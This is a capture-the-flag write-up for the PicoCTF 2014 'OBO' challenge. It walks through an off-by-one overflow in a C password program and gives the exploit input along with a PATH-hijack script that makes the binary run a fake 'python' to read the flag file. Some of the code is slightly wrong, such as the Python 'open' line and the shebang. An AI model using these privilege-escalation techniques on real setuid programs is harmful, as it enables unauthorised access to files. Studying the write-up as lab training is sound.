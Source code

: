 ###OBO 

This challenge comes from PicoCTF 2014. We are given a vulnerable C code in the directory ```/home/obo/```. Our goal is to cat flag.txt, which is placed in the same directory.

The obvious mistake that the programmer has made is buffer overflow. Instead of using ```<```, the programmer used ```<=```, reading one additional index.
This vulnerability comes in handy for bypassing the password check. For now, let's talk about the first half of the ```main()```.
```
generate_hex_table();
...
printf("New password: ");
  fflush(stdout);
  read_password(stdin, new_password, sizeof(new_password));
  for (i = 0; i <= strlen(new_password); ++i) {
    int index = hex_table[(unsigned char) new_password[i]];
    if (index == -1) {
      printf("Invalid character: %c\n", new_password[i]);
      exit(1);
    }
    digits[index] = 1;
  }

  for (i = 0; i <= 16; ++i) {
    if (digits[i] == 0) {
      printf("Password is not complex enough: %d\n", i);
      return 1;
    }
  }
```
generate_hex_table() looks as follows
```
void generate_hex_table(void) {
  int i;
  for (i = 0; i <= 256; ++i) {
    hex_table[i] = -1;
  }

  for (i = 0; i <= 10; ++i) {
    hex_table['0' + i] = i;
  }

  for (i = 0; i <= 6; ++i) {
    hex_table['a' + i] = 10 + i;
  }

  for (i = 0; i <= 6; ++i) {
    hex_table['A' + i] = 10 + i;
  }

  // I don't know why, but I was getting errors, and this fixes it.
  hex_table[0] = 0;
}
```
What ```generate_hex_table()``` is supposed to do is to generate an int array that is used for password checking. First, all the array elements (including one-unit oveflow) is set to -1 to indicate invalid character.
Then, we see that the ASCII digits 0-9 as well as : that comes after ASCII 9) is set to 0 to 10 respectively, followed by ASCII lowercase alphabets
a to g set to 10 through to 16, followed by ASCII uppercase alphabets A to G set to 0 through to 16. 
The first for-loop of the main() checks whether each character of the string we input falls within these characters, and set digits[] array using 
```index = hex_table[(unsigned char) new_password[i]]```. To pass the second for-loop, all of the elements of digits[] must be set to 1.
So we know that the variable index has to be from 0 o 15. This is easy; we just give all the digits, as well as the alphabets a to f.
The second half of the program is password checking. 
```
  printf("Confirm old password: ");
  fflush(stdout);
  read_password(stdin, confirm_password, sizeof(confirm_password));
  if (strcmp(confirm_password, password) != 0) {
    printf("Old password is incorrect.\n");
    return 1;
  }
```
```confirm_password``` varible is the string we feed to the program. This is checked by the password stored and read from the password file. 
Now, there is no way we can guess or disclose the password: in fact, we don't have to do it. This is where the buffer overflow vulnerability comes in.
It turns out that in the stack, the variable stored after the int digits array is password. And when index = 16, we can set digits[16] = 1, which is actually this password string.
1 is an integer value (4 bytes), in hexadecimal equal to \x01\x00\x00\x00 (reversed for little-endian): this is handy because ASCII 0 follows \x01, which can be recognised as the null character
for this string! Note that to set index[16] = 1, we can supply g as one of the characters in the password, and this is exactly the <= mistake in the generate_hex_table() allows us to do.

Another mistake we can exploit is that the programmer called python to change the password rather than do it within the C code. 
There are a few ways we can exploit this.

1. We can go to the root directory and from there execute ```obo```. It is important to know that ```set_password.py``` is called relative to the program. Say we make a python file in the home directory with
identical name but has the following content

```
print open("cat /home/obo/flag.txt").read()
```
Then this would be the file executed by the program. So, in the root directory, enter the following in the command line
```
python -c 'print "abcdefg123456789\n\x01" ' | /home/obo/obo
```
Note that we have get a help from Python because we want to pass integer (or hex) 1, not 1 as ASCII character. 

2. In the home directory, we can make a bash script named ```python``` with the following code inside
```
#!bin/sh
cat /home/obo/flag.txt
```
Make this executable and modify the $PATH variable
```
chmod +x python
export PATH=/home_users/pico*****:$PATH
```
We set the path as above because of the precedence - from left to right.

Also, in order to use the actual python command, we can call it as python2. So we just have to type in the command line
```
python2 -c "print 'abcdefg123456789\n\x01'"| /home/obo/obo
```

the flag is  ```watch_your_bounds```











